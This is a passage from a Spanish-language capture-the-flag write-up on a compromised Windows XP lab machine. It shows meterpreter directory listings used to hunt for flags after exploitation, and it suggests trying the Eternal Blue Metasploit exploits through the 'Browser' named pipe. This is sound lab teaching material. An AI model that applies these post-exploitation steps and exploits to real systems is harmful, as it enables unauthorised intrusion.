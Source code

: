 ```bash
```

* Solo es cosa de buscar los mismos directorios donde están las flags y otra vez, hemos vulnerado la máquina:
```bash
meterpreter > cd C:\\
meterpreter > ls
Listing: C:\
============
.
Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  0       fil   2017-03-15 23:30:44 -0600  AUTOEXEC.BAT
100666/rw-rw-rw-  0       fil   2017-03-15 23:30:44 -0600  CONFIG.SYS
040777/rwxrwxrwx  0       dir   2017-03-16 00:07:20 -0600  Documents and Settings
100777/rwxrwxrwx  73802   fil   2023-04-01 18:11:58 -0600  ETYX3D.exe
100444/r--r--r--  0       fil   2017-03-15 23:30:44 -0600  IO.SYS
100444/r--r--r--  0       fil   2017-03-15 23:30:44 -0600  MSDOS.SYS
100555/r-xr-xr-x  47564   fil   2008-04-13 15:13:04 -0500  NTDETECT.COM
040555/r-xr-xr-x  0       dir   2017-12-29 14:41:18 -0600  Program Files
040777/rwxrwxrwx  0       dir   2017-03-15 23:32:59 -0600  System Volume Information
040777/rwxrwxrwx  0       dir   2022-05-18 07:10:06 -0500  WINDOWS
100777/rwxrwxrwx  73802   fil   2023-04-01 18:21:25 -0600  Y8YP5L.exe
100666/rw-rw-rw-  211     fil   2017-03-15 23:26:58 -0600  boot.ini
100444/r--r--r--  250048  fil   2008-04-13 17:01:44 -0500  ntldr
000000/---------  0       fif   1969-12-31 18:00:00 -0600  pagefile.sys
100666/rw-rw-rw-  0       fil   2023-04-01 17:43:46 -0600  pwned.txt
.
meterpreter > cd "Documents and Settings"
meterpreter > ls
Listing: C:\Documents and Settings
==================================
.
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2017-03-16 00:07:21 -0600  Administrator
040777/rwxrwxrwx  0     dir   2017-03-15 23:29:48 -0600  All Users
040777/rwxrwxrwx  0     dir   2017-03-15 23:33:37 -0600  Default User
040777/rwxrwxrwx  0     dir   2017-03-15 23:32:52 -0600  LocalService
040777/rwxrwxrwx  0     dir   2017-03-15 23:32:43 -0600  NetworkService
040777/rwxrwxrwx  0     dir   2017-03-15 23:33:42 -0600  john
```
Bien podríamos probar los Exploits del **Eternal Blue** que son exclusivos de **Metasploit**, por lo que pueden intentarlo. Solamente chequen que cumpla con los requisitos, que en este caso es que se trate de conectar por el **named pipe Browser**.


<br>
<br>
<div style="position: relative;">
	<h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>
